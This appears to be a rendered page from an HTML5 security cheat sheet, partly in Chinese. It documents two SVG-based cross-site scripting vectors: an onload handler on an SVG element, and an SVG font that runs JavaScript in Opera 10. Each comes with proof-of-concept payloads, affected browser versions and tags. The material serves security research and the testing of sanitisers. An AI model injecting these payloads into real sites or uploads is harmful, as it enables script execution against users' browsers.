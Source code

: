 SVG文件中可以通过任意元素的onload事件执行Javascript,且不需要用户交互


```
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:alert(1)"></g></svg>
```

在上传时不能把SVG当图片处理,因为它可以包含任意HTML,且能被浏览器解析

*   opera 10.0
*   opera 12.0

*   chrome 4.0
*   chrome 35.0

*   firefox 3.0
*   firefox 3.6.28

*   safari 5.0
*   safari 5.1.7

*   internet explorer 9.0
*   internet explorer latest

*   xss
*   svg
*   onload
*   opera
*   firefox
*   chrome
*   internet explorer

*   [https://developer.mozilla.org/en/SVG](https://developer.mozilla.org/en/SVG)

reporter：.mario

### Opera 10 SVG font XSS[#43](#43)[test](test/#43)

Opera 10.00 and later minor versions allow using SVG fonts and will - as soon as the font file has loaded even execute embedded JavaScript. The current example utilizes a load event handler to execute the JavaScript without user interaction as soon as the font file has been fully loaded.


```
<?xml version="1.0" standalone="no"?> <html xmlns="http://www.w3.org/1999/xhtml"> <head> <style type="text/css"> @font-face {font-family: y; src: url("font.svg#x") format("svg");} body {font: 100px "y";} </style> </head> <body>Hello</body> </html>``<?xml version="1.0" standalone="no"?><!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg onload="alert(1)" xmlns="http://www.w3.org/2000/svg"><defs><font id="x"><font-face font-family="y"/></font></defs></svg>required_mime: image/svg+xmlcrossdomain: 0path: [http://html5sec.org/font.svg](http://html5sec.org/font.svg)name: font.svg
```

*   opera 10.0

*   xss
*   javascript
*   opera
*   svg
*   font
*   svgfont
